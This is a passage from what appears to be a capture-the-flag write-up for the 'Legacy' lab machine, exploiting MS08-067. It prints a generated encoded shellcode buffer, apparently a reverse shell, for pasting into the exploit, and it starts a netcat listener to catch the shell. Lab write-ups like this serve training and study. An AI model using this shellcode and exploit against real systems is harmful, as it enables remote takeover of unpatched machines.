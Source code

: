 ```bash
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1491 bytes
unsigned char buf[] = 
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x30\xc3\xf9\xba\x83\xee\xfc\xe2\xf4\xcc\x2b\x7b\xba"
"\x30\xc3\x99\x33\xd5\xf2\x39\xde\xbb\x93\xc9\x31\x62\xcf"
"\x72\xe8\x24\x48\x8b\x92\x3f\x74\xb3\x9c\x01\x3c\x55\x86"
"\x51\xbf\xfb\x96\x10\x02\x36\xb7\x31\x04\x1b\x48\x62\x94"
"\x72\xe8\x20\x48\xb3\x86\xbb\x8f\xe8\xc2\xd3\x8b\xf8\x6b"
"\x61\x48\xa0\x9a\x31\x10\x72\xf3\x28\x20\xc3\xf3\xbb\xf7"
"\x72\xbb\xe6\xf2\x06\x16\xf1\x0c\xf4\xbb\xf7\xfb\x19\xcf"
"\xc6\xc0\x84\x42\x0b\xbe\xdd\xcf\xd4\x9b\x72\xe2\x14\xc2"
"\x2a\xdc\xbb\xcf\xb2\x31\x68\xdf\xf8\x69\xbb\xc7\x72\xbb"
"\xe0\x4a\xbd\x9e\x14\x98\xa2\xdb\x69\x99\xa8\x45\xd0\x9c"
"\xa6\xe0\xbb\xd1\x12\x37\x6d\xab\xca\x88\x30\xc3\x91\xcd"
"\x43\xf1\xa6\xee\x58\x8f\x8e\x9c\x37\x3c\x2c\x02\xa0\xc2"
"\xf9\xba\x19\x07\xad\xea\x58\xea\x79\xd1\x30\x3c\x2c\xea"
"\x60\x93\xa9\xfa\x60\x83\xa9\xd2\xda\xcc\x26\x5a\xcf\x16"
"\x6e\xd0\x35\xab\xf3\xb0\x3e\xb1\x91\xb8\x30\xc2\x42\x33"
"\xd6\xa9\xe9\xec\x67\xab\x60\x1f\x44\xa2\x06\x6f\xb5\x03"
"\x8d\xb6\xcf\x8d\xf1\xcf\xdc\xab\x09\x0f\x92\x95\x06\x6f"
"\x58\xa0\x94\xde\x30\x4a\x1a\xed\x67\x94\xc8\x4c\x5a\xd1"
"\xa0\xec\xd2\x3e\x9f\x7d\x74\xe7\xc5\xbb\x31\x4e\xbd\x9e"
"\x20\x05\xf9\xfe\x64\x93\xaf\xec\x66\x85\xaf\xf4\x66\x95"
"\xaa\xec\x58\xba\x35\x85\xb6\x3c\x2c\x33\xd0\x8d\xaf\xfc"
"\xcf\xf3\x91\xb2\xb7\xde\x99\x45\xe5\x78\x19\xa7\x1a\xc9"
"\x91\x1c\xa5\x7e\x64\x45\xe5\xff\xff\xc6\x3a\x43\x02\x5a"
"\x45\xc6\x42\xfd\x23\xb1\x96\xd0\x30\x90\x06\x6f";

```
Net move to our directory for the exploit.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ cd ms08_067 
```
Next we should edit the exploit a bit in Visual Code.

![Image](/assets/img/WriteUp/HTB/Legacy/Pasted image 20230404211458.png){: width="700" height="400" }

As soon as it is saved we should start our netcat listener in another terminal.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Legacy]
└─$ sudo nc -lvp 443                       
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```
